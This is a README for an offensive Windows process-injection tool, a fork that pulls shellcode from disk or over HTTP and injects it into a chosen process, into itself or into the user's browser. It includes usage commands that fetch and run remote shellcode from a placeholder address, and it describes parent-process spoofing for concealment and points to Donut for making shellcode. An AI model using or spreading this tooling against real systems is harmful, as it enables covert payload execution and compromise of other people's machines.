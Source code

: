 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Usage

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```

## Target and Format

The `targ` argument can point to a URL or path on disk. URLs must start with http:// or https://. This file should contain your shellcode. .Net shellcode can be generated via Donut by TheWover.

The `form` argument tells the runner whether the shellcode is in "binary" format (default) or "base64. Valid values are "bin", "binary", "base64", and "b64". If encoded, the runner will decode it.

## Injection Techniques

The `meth` argument tells the runner what technique to use for injection. Right now, only "simple" injection is supported (default) via CreateRemoteThread.

## Parent Spoofing vs PID

You can either target a live process (PID / live mode) to inject into or you can use parent spoofing. PID mode requires the use of the `pid` arugment while parent spoofing requires both `parent` and `spawn`.

### PID / Live Mode

The `pid` value accepts a valid PID, a program to search for (explorer.exe/notepad.exe), or "self". When searching, the pid is resolved from the current session so the process needs to be in the same session. For self, the runner will just inject into itself and wait forever. There is an additional alias called `browser` that attempts to first inject into the user's default browser and then blindly checks for running chrome and IE instances.

### Parent Mode

The `parent` argument can be either a valid running PID or a program name (explorer/program.exe). When searching for the program name, a running PID for that program must exist in the same session.

The `spawn` argument tells the runner which program to spawn and inject into. It can either be a fully qualified path to an EXE or a basename like "explorer.exe". The runner will search the \$PATH environment variable for the executable. The spawn argument also has a browser alias that looks for common brower executables.

## Known Issues

- cmd.exe may not work with spawn.

### References

- .Net ShellCode https://github.com/TheWover/donut
- Parent Spoofing: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Todos:

- Process hollowing
- APC Queue
- Clean up Win32
- Simple targets and keys
- Parseable targets via regex
